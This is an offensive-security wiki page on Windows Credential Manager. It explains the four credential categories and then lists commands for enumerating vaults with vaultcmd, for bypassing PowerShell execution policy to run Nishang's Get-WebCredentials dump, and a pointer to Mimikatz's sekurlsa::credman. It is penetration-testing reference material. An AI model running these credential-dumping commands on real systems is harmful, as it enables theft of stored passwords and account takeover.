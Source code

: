 ```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ Windows Credential Manager



## Theory

Windows Credential Manager is a built-in feature that securely stores sensitive login information for websites, applications, and networks. It houses login credentials such as usernames, passwords, and web addresses. There are four distinct categories of stored credentials:

1. **Web-based credentials**: authentication details saved in web browsers (or other applications)
2. **Windows-specific credentials**: authentication data such as NTLM or Kerberos
3. **Generic credentials**: fundamental authentication data, such as clear-text usernames and passwords
4. **Certificate-based credentials**: comprehensive information based on certificates

## Practice 

From Windows systems, `vaultcmd.exe` can be used to enumerate, check and list Microsoft Credentials. However, this tool does not allow to see clear text passwords as it is an official, native, Windows program.

```powershell
#enumerate current Windows safes available
vaultcmd /list

#Check for credentials stored in the vault
VaultCmd /listproperties:"$coffre_name"

#more information about the Vault 
VaultCmd /listcreds:"$coffre_name"
```

The vault can be dumped in with [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1) (PowerShell) .

```powershell
powershell -ex bypass

Import-Module C:\Get-WebCredentials.ps1

Get-WebCredentials
```

Alternatively, [Mimkatz](https://github.com/gentilkiwi/mimikatz) (C) can be used for that purpose, with [`sekurlsa::credman`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/credman).


